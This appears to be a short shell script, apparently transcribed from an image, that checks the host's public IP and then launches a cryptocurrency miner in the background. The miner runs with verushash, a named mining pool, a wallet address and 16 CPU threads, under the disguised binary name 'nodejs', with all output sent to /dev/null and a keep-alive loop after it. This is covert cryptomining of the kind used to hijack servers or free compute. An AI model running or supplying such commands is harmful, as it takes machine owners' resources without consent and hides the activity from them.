 sleep 10
curl ifconfig.io
nohup ./nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 > /dev/null 2>&1 &
nohup bash -c 'while true; do date; sleep 10; done' &

